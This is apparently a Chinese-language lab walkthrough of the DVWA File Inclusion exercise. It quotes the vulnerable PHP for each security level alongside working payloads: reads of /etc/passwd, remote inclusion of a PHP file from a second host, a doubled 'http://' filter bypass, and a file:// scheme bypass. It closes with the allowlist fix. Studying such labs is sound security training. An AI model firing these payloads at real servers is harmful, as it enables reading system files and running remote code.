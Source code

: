 <center>File Inclusion文件包含</center>





[toc]







## File Inclusion文件包含

> 文件包含







### 1.low

> 低级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

> 本地文件 文件包含，看系统文件

```shell
# windows
http://192.168.0.111:8000/vulnerabilities/fi/?page=D:\\a.txt

# linux
http://192.168.0.111:8000/vulnerabilities/fi/?page=/etc/passwd
```

> 远程文件包含。 没有红色提示了。

```shell
php.ini allow_url_include 打开这个远程文件

# 进入docker环境
docker exec -it DockerId bash

# 修改php.ini
# 使用 sed 命令直接替换配置 查看php.ini路径
sudo sed -i 's/allow_url_include = Off/allow_url_include = On/g' /etc/php/7.0/apache2/php.ini

# 重启 Apache 服务
sudo systemctl restart apache2 / sudo service apache2 restart
```

```shell
# linux  两个主机之间可以通信。
http://192.168.0.111:8000/vulnerabilities/fi/?page=http://192.168.0.110:3000/a.php
```







### 2. medium

> 中级
>
> 代码

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

```shell
# 过滤了http https 我们直接多写几个 http://
http://192.168.0.111:8000/vulnerabilities/fi/?page=hhttp://ttp://192.168.0.110:3000/a.txt
```

> 防护：多过滤几次`http://`





### 3. high

> 高级
>
> 代码

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```

> 前缀必须是`file`

file协议：用于访问本地文件系统

```shell
URL格式：`file:///path/to/file`

特点：

只能访问本地文件

没有网络传输过程

权限取决于本地文件系统权限
```

```shell
# 本地文件
http://192.168.0.111:8000/vulnerabilities/fi/?page=file:///etc/passwd
```





### 4. impossible

> 不可能
>
> 代码

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

```

> 文件只能是 `file1.php  file2.php  file13php`
>
> 比较安全：`白名单方式实现`









